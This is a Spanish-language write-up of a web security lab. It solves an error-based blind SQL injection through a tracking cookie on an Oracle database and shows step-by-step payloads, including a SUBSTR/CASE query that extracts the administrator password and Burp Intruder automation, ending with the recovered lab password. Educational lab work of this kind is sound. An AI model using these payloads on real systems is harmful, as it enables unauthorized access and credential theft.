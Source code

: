 ## Objetivo:

![[Pasted image 20240624194714.png]]

## Solucion:

Entrar a cualquier parte de la aplicacion

![[Pasted image 20240624195236.png]]

Vemos que manipulando la cookie "TrackingId" podemos llegar a hacer saltar ese "Welcome Back" o no dependiendo de si le enviamos una query valida...

Supongamos que la query que esta internamente se ve algo asi:

```
SELECT * FROM tracking WHERE trackingId = 'miCookie';
```

Entonces inyectaremos lo siguiente:

```
lkNLQi3BLKjUA6bQ' AND 1=1 -- -
lkNLQi3BLKjUA6bQ' AND (1/0)=1 -- -
```

![[Pasted image 20240626184236.png]]

![[Pasted image 20240626184331.png]]

Y vemos que podemos provocar errores, ya con esto podemos ir creando querys condicionales para intentar aplicar tecnicas para enumerar caracteres de la contraseña del usuario o lo que querramos hacer...

Vemos que usando este Payload da error
```
lkNLQi3BLKjUA6bQ' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a -- -
```

![[Pasted image 20240626184915.png]]

Y vemos que acá NO porque la primer condicion No se cumple.
```
lkNLQi3BLKjUA6bQ' AND (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a -- -
```

![[Pasted image 20240626184950.png]]

NOTA:
Es importante que tengas en cuenta el payload que inyectas, porque puede que te dé error pero no por el "1/0" si no por error de sintaxis y esto varía dependiendo de la Base de Datos por detrás.... Así proba con varios payload, en este caso es la DB es Oracle por el TO_CHAR() y el FROM dual...

Bueno, ya con esto podemos intentar hacer la tecnica del SUBSTRING para intentar encontrar la contraseña...

Usaremos la siguiente inyección y vemos que si funciona

```
kNLQi3BLKjUA6bQ' AND (SELECT CASE WHEN (SUBSTR('hola', 1, 1)='h') THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a' -- -

kNLQi3BLKjUA6bQ' AND (SELECT CASE WHEN (SUBSTR('hola', 1, 1)='q') THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a' -- -
```

![[Pasted image 20240626193414.png]]

![[Pasted image 20240626193501.png]]

Ahora ya con esto le crearemos la inyección definitiva

```
lkNLQi3BLKjUA6bQ' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'), 1, 1)='h') THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a' -- -
```

Enviaremos esto al Intruder y luego configuraremos las variables de la siguiente manera y seleccionamos el ataque de tipo Cluster Bomb

![[Pasted image 20240626195201.png]]

Configuramos en el Payload #1 y desmarcamos el check de url encode y tambien lo quitamos en el Payload #2

![[Pasted image 20240626195333.png]]

![[Pasted image 20240626195409.png]]

Y le damos en comenzar ataque y cada vez que el servidor nos responda con un Status Code 500, quiere decir que encontramos un caracter de la contraseña

![[Pasted image 20240626195530.png]]

Y este es el resultado final

![[Pasted image 20240626200504.png]]

Ahora coloquemonos en el orden en como tenemos el Payload #1

Y la contraseña quedaria como : s6x8piu3gnlp9sva149a

Iniciamos sesion y listo.

![[Pasted image 20240626201234.png]]

